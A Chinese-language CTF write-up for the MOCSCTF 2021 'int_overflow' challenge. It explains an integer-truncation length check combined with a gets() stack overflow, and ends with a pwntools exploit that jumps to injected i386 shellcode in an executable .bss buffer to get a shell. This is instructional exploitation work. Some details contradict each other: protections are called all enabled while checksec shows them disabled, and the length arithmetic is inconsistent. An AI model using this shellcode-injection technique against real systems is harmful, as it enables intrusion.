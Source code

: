 ```yaml
---
Author : Mark0519
https://github.com/JamesHoi/MOCSCTF-2021/tree/main
---
```


# int_overflow

## 题目分析

### 1.checksec分析

使用checksec命令分析，得知此题所有保护均为开启：

`````shell
 mark0519:~/Desktop$  checksec int_overflow
 Arch:     i386-32-little
 RELRO:    Partial RELRO
 Stack:    No canary found
 NX:       NX disabled
 PIE:      No PIE (0x8048000)
 RWX:      Has RWX segments
`````

且ELF文件为32位，使用IDApro32位打开

### 2.源码分析

使用IDApro32位打开后，找到main函数后用F5反汇编得到伪C代码

几个主要函数反汇编的结果如下：

````c
//main()函数
int __cdecl main(int argc, const char **argv, const char **envp)
{
  puts("##### Welcome to MOCSCTF #####");
  puts("Plz input your passwd:");
  validate_passwd();
  return 0;
}
````

````c
//validate_passwd()函数
int validate_passwd()
{
  char s; // [esp+Dh] [ebp-3Bh]
  unsigned __int8 v2; // [esp+3Fh] [ebp-9h]

  gets(&s);
  v2 = strlen(&s);
  return check(v2, &s);
}
````

````c
//check()函数
char *__cdecl check(int a1, char *src)
{
  if ( (unsigned __int8)a1 <= 3u || (unsigned __int8)a1 > 8u )
    return (char *)puts("bad!");
  puts("good!");
  return strcpy(passwd_buf, src);
}
````

阅读源码得知：

此文件主要功能为：

输入一段passwd，如果passwd的长度大于4且小于等于8，则输出``good！``，并且把passwd复制给passwd_buf，否则输出``bad！``

**但代码中存在整数溢出的漏洞**

在validate_passwd()函数中，通过strlen函数获取输入的passwd的长度，并将长度赋值给v2。

但是v2的数据类型为``unsigned __int8 ``,即单字节无符号数，即只能表示0~255这256个数（二进制的0000 0000 到1111 1111），如果超出255，则发生整数溢出。

简单来说，如果将255+5 = 260赋值给v2（v2 = 260），则在c程序运行中将其当作 5 处理。

具体整数溢出见ctfwiki：https://ctf-wiki.org/pwn/linux/integeroverflow/intof/

**同时存在栈溢出漏洞**

在输入时，程序所用的是gets函数，它从不检查输入字符串的长度，而是以回车来判断输入是否结束，所以很容易可以导致栈溢出。

> 历史上，**莫里斯蠕虫**第一种蠕虫病毒就利用了 gets 这个危险函数实现了栈溢出。

这里我们输入s时，由IDApro的反汇编````char s; // [esp+Dh] [ebp-3Bh]````得知，s距离ebp只有0x3b个字节，我们只要覆盖0x3b+4个字节，即可覆盖返回地址（+4是应为载覆盖一个ebp），从而达到劫持控制流的目的。

具体栈溢出原理见ctfwiki：https://ctf-wiki.org/pwn/linux/stackoverflow/stackoverflow-basic/

### 3.攻击思路

我们可以通过输入passwd时，利用栈溢出劫持控制流。

而整数溢出允许我们输入更多的字符，且将字符复制到了passwd_buf处，在保护都未开的情况下，passwd_buf所在的.bss段拥有执行权限。（也可通过gdb调试得知）故我们可以劫持控制流到passwd_buf处，执行我们所写的程序，进而拿到shell。

````shell
#gdb调试内容
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
 0x8048000  0x8049000 r-xp     1000 0      /home/sjj/Desktop/int_overflow
 0x8049000  0x804a000 r-xp     1000 0      /home/sjj/Desktop/int_overflow
 0x804a000  0x804b000 rwxp     1000 1000   /home/sjj/Desktop/int_overflow
0xf7ddb000 0xf7fb0000 r-xp   1d5000 0      /lib/i386-linux-gnu/libc-2.27.so
0xf7fb0000 0xf7fb1000 ---p     1000 1d5000 /lib/i386-linux-gnu/libc-2.27.so
0xf7fb1000 0xf7fb3000 r-xp     2000 1d5000 /lib/i386-linux-gnu/libc-2.27.so
0xf7fb3000 0xf7fb4000 rwxp     1000 1d7000 /lib/i386-linux-gnu/libc-2.27.so
0xf7fb4000 0xf7fb7000 rwxp     3000 0      
0xf7fd0000 0xf7fd2000 rwxp     2000 0      
0xf7fd2000 0xf7fd5000 r--p     3000 0      [vvar]
0xf7fd5000 0xf7fd6000 r-xp     1000 0      [vdso]
0xf7fd6000 0xf7ffc000 r-xp    26000 0      /lib/i386-linux-gnu/ld-2.27.so
0xf7ffc000 0xf7ffd000 r-xp     1000 25000  /lib/i386-linux-gnu/ld-2.27.so
0xf7ffd000 0xf7ffe000 rwxp     1000 26000  /lib/i386-linux-gnu/ld-2.27.so
0xfffdd000 0xffffe000 rwxp    21000 0      [stack]
````

具体过程：

1.将一段i386的shellcode输入进passwd。

2.将shellcode不足0x3b+4位的部分用任意字符补齐。  

3.将passwd_buf的地址打包成32位（占4个字节）发送，覆盖返回地址。

4.为满足check函数的条件，制造整数溢出，再在后面补上255 + 6 - 4 -（0x3b+4）= 194 个字节 ，这样v2=6满足条件。

5.getshell

## exp

````python
from pwn import *

p = process('./int_overflow')
#p = remote('ip','port')
context.log_level = 'debug'

passwd_buf_addr = 0x0804A060 
shellcode = shellcraft.i386.sh()

p.recvuntil("wd:\n")     
payload = asm(shellcode).ljust(0x3b+4,'a')+p32(passwd_buf_addr)+'a'*194  #63+4+194=261
p.send(payload)
p.interactive()
````


